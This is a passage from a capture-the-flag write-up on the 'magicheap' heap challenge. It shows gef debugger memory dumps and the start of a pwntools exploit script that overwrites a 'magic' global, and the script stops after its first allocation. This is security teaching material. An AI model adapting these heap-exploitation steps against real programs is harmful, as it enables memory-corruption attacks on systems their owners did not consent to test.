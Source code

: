 ```
0x1e23200:  0x100 0x41
0x1e23210:  0x3832373533393530  0x0
0x1e23220:  0x0 0x0
0x1e23230:  0x0 0x0
0x1e23240:  0x0 0x20dc1
0x1e23250:  0x0 0x0
0x1e23260:  0x0 0x0
0x1e23270:  0x0 0x0
0x1e23280:  0x0 0x0
0x1e23290:  0x0 0x0
0x1e232a0:  0x0 0x0
0x1e232b0:  0x0 0x0
0x1e232c0:  0x0 0x0
0x1e232d0:  0x0 0x0
0x1e232e0:  0x0 0x0
0x1e232f0:  0x0 0x0
0x1e23300:  0x0 0x0
0x1e23310:  0x0 0x0
gef➤  x/g 0x6020c0
0x6020c0 <magic>: 0x7fe13d107b78
```

With that, we can get the flag!

## Exploit

Putting it all together, we have the following exploit:

```
from pwn import *

target = process('./magicheap')
#gdb.attach(target)

def add(size, content):
  print target.recvuntil("Your choice :")
  target.sendline("1")
  print target.recvuntil("Size of Heap : ")
  target.sendline(str(size))
  print target.recvuntil("Content of heap:")
  target.send(content)


def edit(index, size, content):
  print target.recvuntil("Your choice :")
  target.sendline("2")
  print target.recvuntil("Index :")
  target.sendline(str(index))
  print target.recvuntil("Size of Heap : ")
  target.sendline(str(size))
  #print target.recvuntil("Content of heap:")
  target.sendline(content)

def delete(index):
  print target.recvuntil("Your choice :")
  target.sendline("3")
  print target.recvuntil("Index :")
  target.sendline(str(index))

# Declare the target variable
magic = 0x6020c0

# Allocate our three chunks
add(0xf0, "15935728")# 0
```